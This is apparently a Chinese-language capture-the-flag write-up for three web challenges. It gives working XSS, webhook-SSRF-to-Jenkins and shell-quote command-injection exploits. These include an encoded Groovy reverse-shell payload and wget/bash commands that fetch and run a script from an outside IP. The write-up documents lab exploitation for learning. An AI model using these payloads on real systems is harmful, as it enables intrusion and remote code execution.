









## easy latex

本地测试如下



当前面加//或者\\\就能指定加载任意的vps了



成功xss



然后打下面这里。这里的req.params支持编码



```
/share/%2e%2e%2f%70%72%65%76%69%65%77%3f%74%65%78%3d%61%77%64%61%64%61%77%64%26%74%68%65%6d%65%3d%2f%2f%34%37%2e%39%36%2e%34%31%2e%31%30%33%3a%38%38%38%33
```

最后的exp

```
const login = '/login';
const vip = '/vip';
const crypto = require('crypto')
const md5 = (data) => crypto.createHash('md5').update(data).digest('hex')
const loginreq = new URLSearchParams({
    username: '//c6dus196.requestrepo.com',
    password: md5(username)
});
const changshu = {
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded',
    },
    body: loginreq,
};

async function evil() {
    try {
        const loginrep = await fetch(login, changshu);
        if (loginrep.ok) {
            const vipResponse = await fetch(vip, {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/x-www-form-urlencoded',
                },
                body: new URLSearchParams({ code: "awdawdwadwadwadwa" }),
                credentials: 'include',
            });
            // 在这里你可以处理vipResponse
        } else {
            // 在这里处理登录失败的情况
        }
    } catch (error) {
        console.error(error);
    }
}

evil();

```




## hooks

找到了这篇文章

https://www.cidersecurity.io/blog/research/how-we-abused-repository-webhooks-to-access-internal-ci-systems-at-scale/

直接重定向到内网首页

```
from flask import Flask,redirect
app = Flask(__name__)
@app.route('/evil', methods=['POST'])
def evil():
    return redirect("http://124.70.33.170:8088/redirect?redirect_url=http://jenkins:8080/",code=302)
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=9999)
```

看到版本如下



上网搜到这篇文章

https://www.cnblogs.com/cute-puli/p/15378440.html

直接弹shell

```
from flask import Flask,redirect
app = Flask(__name__)
@app.route('/evil', methods=['POST'])
def evil():
    return redirect("http://124.70.33.170:8088/redirect?redirect_url=%68%74%74%70%3a%2f%2f%6a%65%6e%6b%69%6e%73%3a%38%30%38%30%2f%73%65%63%75%72%69%74%79%52%65%61%6c%6d%2f%75%73%65%72%2f%61%64%6d%69%6e%2f%64%65%73%63%72%69%70%74%6f%72%42%79%4e%61%6d%65%2f%6f%72%67%2e%6a%65%6e%6b%69%6e%73%63%69%2e%70%6c%75%67%69%6e%73%2e%73%63%72%69%70%74%73%65%63%75%72%69%74%79%2e%73%61%6e%64%62%6f%78%2e%67%72%6f%6f%76%79%2e%53%65%63%75%72%65%47%72%6f%6f%76%79%53%63%72%69%70%74%2f%63%68%65%63%6b%53%63%72%69%70%74%3f%73%61%6e%64%62%6f%78%3d%74%72%75%65%26%76%61%6c%75%65%3d%25%37%30%25%37%35%25%36%32%25%36%63%25%36%39%25%36%33%25%32%30%25%36%33%25%36%63%25%36%31%25%37%33%25%37%33%25%32%30%25%37%38%25%32%30%25%37%62%25%30%61%25%32%30%25%32%30%25%37%30%25%37%35%25%36%32%25%36%63%25%36%39%25%36%33%25%32%30%25%37%38%25%32%38%25%32%39%25%37%62%25%30%61%25%32%30%25%32%30%25%32%30%25%32%30%25%32%32%25%36%32%25%36%31%25%37%33%25%36%38%25%32%30%25%32%64%25%36%33%25%32%30%25%37%62%25%36%35%25%36%33%25%36%38%25%36%66%25%32%63%25%35%39%25%36%64%25%34%36%25%37%61%25%36%31%25%34%33%25%34%31%25%37%34%25%36%31%25%35%33%25%34%31%25%32%62%25%34%61%25%36%39%25%34%31%25%37%36%25%35%61%25%34%37%25%35%36%25%33%32%25%34%63%25%33%33%25%35%32%25%36%61%25%36%33%25%34%33%25%33%38%25%33%30%25%34%65%25%37%39%25%33%34%25%33%35%25%34%65%25%36%39%25%33%34%25%33%30%25%34%64%25%35%33%25%33%34%25%37%38%25%34%64%25%34%34%25%34%64%25%37%36%25%34%65%25%34%34%25%35%31%25%33%30%25%34%65%25%34%33%25%34%31%25%37%37%25%35%30%25%36%39%25%35%39%25%37%38%25%37%64%25%37%63%25%37%62%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%63%25%32%64%25%36%34%25%37%64%25%37%63%25%37%62%25%36%32%25%36%31%25%37%33%25%36%38%25%32%63%25%32%64%25%36%39%25%37%64%25%32%32%25%32%65%25%36%35%25%37%38%25%36%35%25%36%33%25%37%35%25%37%34%25%36%35%25%32%38%25%32%39%25%30%61%25%32%30%25%32%30%25%37%64%25%30%61%25%37%64",code=302)
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=9999)
```




## ~Ave Mujica's Masquerade~

下面这里存在漏洞



参考这个文章打即可

https://wh0.github.io/2021/10/28/shell-quote-rce-exploiting.html

payload如下

```
http://124.70.33.170:24001/checker?url="127.0.0.0:`:`bash$IFS$9a.sh``:`

http://124.70.33.170:24001/checker?url="127.0.0.0:`:`wget$IFS$947.96.41.103:8889/a.sh``:`
```

成功弹shell

